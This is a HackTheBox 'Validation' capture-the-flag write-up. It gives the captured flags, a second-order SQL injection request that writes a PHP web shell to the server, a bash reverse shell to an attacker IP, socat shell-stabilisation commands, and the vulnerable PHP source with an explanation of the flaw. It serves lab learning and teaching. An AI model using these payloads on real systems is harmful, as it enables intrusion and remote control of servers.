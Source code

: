 # HackTheBox Validation

> Saikat Karmakar | Sept 18 : 2021


--- 

1. user.txt
```
7574229669857dfa5a509a9772b5b129
```
2. root.txt
```
afb3d4df9ebeca9539624be752bd9545
```




---
***Notes***

New things learned 

Poison the data that is coming back from the server 


```bash
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 130
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=ec895eb3fe885df79e40e642c7a95dc3
Connection: close


username=hacker_1&country=Australia' union select "<?php SYSTEM($_REQUEST['c']) ?>" INTO OUTFILE '/var/www/html/shell.php' -- - 
```

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.74/9999 0>&1'
```
- Stabilize using socat because python not installed.

```bash
victim: 
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.74:1234

attacker:
socat file:`tty`,raw,echo=0 tcp-listen:1234
```


- Even after using PDO(prepare statement) we successfully executed SQLi 
- index.php
```php
<?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
    $userhash = md5($_POST['username']);
    $sql = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("sssi", $_POST['username'], $userhash , $_POST['country'], time());
    if ($stmt->execute()) {;
	    setcookie('user', $userhash);
	    header("Location: /account.php");
	    exit;
    }
    $sql = "update registration set country = ? where username = ?";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("ss", $_POST['country'], $_POST['username']);
    $stmt->execute();
    setcookie('user', $userhash);
    header("Location: /account.php");
    exit;
  }

?>

```

- `sssi` in bind means the data it's expecting is string, string, string, int 

- If we look at the account.php
```php
<?php 
	include('config.php');
	$user = $_COOKIE['user'];
	$sql = "SELECT username, country FROM registration WHERE userhash = ?";
	$stmt = $conn->prepare($sql);
	$stmt->bind_param("s", $user);
	$stmt->execute();

	$result = $stmt->get_result(); // get the mysqli result
	$row = $result->fetch_assoc(); // fetch data   
	echo '<h1 class="text-white">Welcome ' . $row['username'] . '</h1>';
	echo '<h3 class="text-white">Other Players In ' . $row['country'] . '</h3>';
	$sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
	$result = $conn->query($sql);
	while ($row = $result->fetch_assoc()) {
	echo "<li class='text-white'>" . $row['username'] . "</li>";
	}
?>

```
- Here in the country part there is no sanitisation is going & it's fetching what's inside the database; that's where the SQLi is happening. This is an exaple of 2nd order SQLi

